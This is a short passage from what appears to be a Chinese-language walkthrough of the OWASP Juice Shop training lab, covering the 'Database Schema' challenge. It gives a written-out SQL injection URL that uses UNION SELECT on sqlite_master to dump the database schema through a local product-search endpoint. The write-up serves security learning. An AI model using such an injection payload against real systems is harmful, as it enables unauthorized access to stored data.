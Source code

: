         ![img](img/user-credentials-attack.PNG)

        ![img](img/user-credentials.PNG)

    - Database Schema(⭐⭐⭐)

        注入原理同User Credentials，但略有不同的是此次注入攻击中连接的表为sqlite_master，注入语句如下：

        ```
        http://127.0.0.1:3000/rest/products/search?q=qwert')) UNION SELECT sql, type, name, tbl_name, rootpage, '6', '7', '8', '9' FROM sqlite_master--
        ```

        ![img](img/entire-db-info.PNG)
